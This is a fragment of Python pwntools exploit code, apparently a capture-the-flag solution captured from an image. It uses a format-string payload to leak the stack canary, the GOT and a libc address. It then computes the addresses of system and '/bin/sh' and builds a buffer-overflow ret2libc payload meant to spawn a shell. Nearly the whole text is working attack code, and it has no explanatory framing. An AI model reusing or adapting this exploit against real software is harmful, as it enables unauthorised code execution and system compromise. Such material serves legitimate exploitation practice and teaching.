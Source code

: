     
    def leck_by_address(address):
    	global sh
    	sh.recvuntil('guess?\n')
    	sh.sendline(guess_num)
    	sh.recvuntil('\nName? ')
    	payload = p(0x2531302473)#char('%10$s')
    	payload += p(0)*3
    	payload += p(0)*4
    	payload += p32(address)
    	sh.sendline(payload)
    	sh.recvuntil('Congrats: ')
    	data = sh.recv(4)
    	sh.recvuntil('\n\n')
    	data = u32(data)
    	return data
    
    
    # find canary
    canary = leck_by_para_num(135)
    
    # find GOT
    GOT = leck_by_para_num(123)
    
    # find address of __libc_start_main
    addr___libc_start_main = leck_by_address(GOT + 0x24)
    
    # libc is libc6-i386_2.27-3ubuntu1.2_amd64
    
    # find address of system and str_bin_sh
    offset___libc_start_main = 0x018da0
    offset_system = 0x03cd80
    offset_str_bin_sh = 0x17bb8f
    
    base_address = addr___libc_start_main - offset___libc_start_main
    addr_system = base_address + offset_system
    addr_str_bin_sh = base_address + offset_str_bin_sh
    
    # overflow
    
    payload = p(0x90)*(0x200)	#ebp-20Ch
    payload += p32(canary)	#ebp-0Ch
    payload += p32(0)	#ebp-8
    payload += p32(0)	#ebp-4
    payload += p32(0)	#ebp
    payload += p32(addr_system)	#ebp+4
    payload += p32(0xdeadbeef)	#ebp+8
    payload += p32(addr_str_bin_sh)	#ebp+0Ch
    